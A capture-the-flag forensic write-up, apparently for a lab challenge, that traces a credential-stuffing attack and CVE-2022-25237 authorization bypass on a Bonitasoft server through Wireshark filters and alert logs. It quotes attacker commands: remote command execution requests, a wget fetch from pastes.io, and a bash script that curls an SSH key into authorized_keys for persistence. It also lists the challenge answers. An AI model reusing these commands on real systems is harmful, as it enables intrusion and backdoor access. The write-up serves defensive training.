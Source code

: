 ## We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

- filter for `http` in Wireshark 
- notice URL contains **bonita**
- open JSON alerts file and search for `bonita` to find entries for **Bonitasoft** (confirm with a web search if desired)

### Answer: `bonitasoft`

## We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

- filter for `http.request.method=="POST"` and take note of the numerous logins

- expand the form information to reveals different usernames and passwords

- looks like a **credential stuffing** attack 

### Answer: `Credential Stuffing`

## Does the vulnerability exploited have a CVE assigned - and if so, which one?

- Searching within the JSON alerts file for "Bonitasoft" reveals multiple lines referencing a CVE number, such as the following: 

```
ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
```

- Performing a web search for "Bonitasoft credential stuffing" (or similar) and/or the above CVE number should net results like the NVD page for the CVE as well

### Answer: `CVE-2022-25237`

## Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

<p>The NVD description (https://nvd.nist.gov/vuln/detail/CVE-2022-25237) will have this information and it can be found/verified
in the PCAP file</p>

Filter: 

```
http.request.method=="POST" && http.request.uri contains "i18ntranslation"
```

### Answer: `i18ntranslation`

## How many combinations of usernames and passwords were used in the credential stuffing attack?

- First filter out all the form submissions

Filter:
```
http.content_type == "application/x-www-form-urlencoded"
```

- Reviewing the results shows a pattern that each one set of credentials is followed by another submission with **install:install**, to remove these from the results refine the filter.

Filter:

```
http.content_type == "application/x-www-form-urlencoded" && urlencoded-form.value != "install"
```

- This leaves 59 packets but in examining the last three one can see the same credentials (**seb.broom@forela.co.uk:g0vernm3nt
**) indicating a change

- checking the response comfirms that this set of credentials was successful with a 204 response rather than 401

- There are 4 packets in the filtered output associated with the successful request meaning that 56 unique username:password attempts were made

### Answer: `56`

## Which username and password combination was successful?

- As discovered above `seb.broom@forela.co.uk:g0vernm3nt` was the successful username:password pair

### Answer: `seb.broom@forela.co.uk:g0vernm3nt`

## If any, which text sharing site did the attacker utilise?

After successful authentication the attacker makes a POST request to a privileged API endpoint using CVE-2022-25237 to bypass auth. This call uploads **"rce_api_extension.zip"**, which allows command execution, then follows up with a few GET requests including **cmd=whoami**, **"cmd=cat%20/etc/passwd"** and ***"cmd=wget%20https://pastes.io/raw/bx5gcr0et8"*** then subsequently executes this file with **"cmd=bash%20bx5gcr0et8"**

### Answer: `pastes.io`

## Please provide the filename of the public key used by the attacker to gain persistence on our host.

Following the link that the wget command uses leads to a page with a simple bash script containing a curl command to append an SSH key to authorized_keys and a command to restart the SSH service

```    
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

### Answer: `hffgra4unv`

## Can you confirm the file modified by the attacker to gain persistence?

As seen above, the modified file is the **authorized_keys** file which has a new key appended to it

### Answer: `/home/ubuntu/.ssh/authorized_keys`

## Can you confirm the MITRE technique ID of this type of persistence mechanism?

Using the ATT&CK Navigator and creating a new layer with the Enterprise matrix (https://mitre-attack.github.io/attack-navigator/) a simple search on **SSH** quickly reveals a result **"Account Manipulation : SSH Authorized Keys"**. Clicking view opens the description (https://attack.mitre.org/techniques/T1098/004/) which includes the ID 

### Answer: `T1098.004`